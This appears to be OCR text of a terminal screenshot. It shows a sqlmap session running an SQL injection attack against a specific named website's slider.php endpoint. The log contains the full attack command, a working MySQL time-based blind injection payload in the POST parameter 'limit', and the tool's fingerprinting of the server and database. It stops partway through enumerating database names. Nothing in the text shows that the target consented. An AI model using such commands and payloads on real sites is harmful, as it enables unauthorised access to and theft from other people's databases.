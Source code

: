 [16:22:28] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[16:24:06] [ERROR] invalid character detected. retrying..
[16:24:38] [ERROR] invalid character detected. retrying..
[16:25:11] [ERROR] invalid character detected. retrying..
[16:25:45] [ERROR] invalid character detected. retrying..
[16:26:18] [ERROR] invalid character detected. retrying..
[16:26:50] [ERROR] unable to properly validate last character value ('C')..
C
^C
[16:27:15] [WARNING] HTTP error codes detected during run:
503 (Service Unavailable) - 1 times

[16:27:15] [ERROR] user aborted

[*] shutting down at 16:27:15

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --dbs --no-cast --threads 1
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:27:41

[16:27:41] [INFO] resuming back-end DBMS 'mysql' 
[16:27:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:27:41] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:27:41] [INFO] fetching database names
[16:27:41] [INFO] fetching number of databases
[16:27:41] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[16:27:49] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
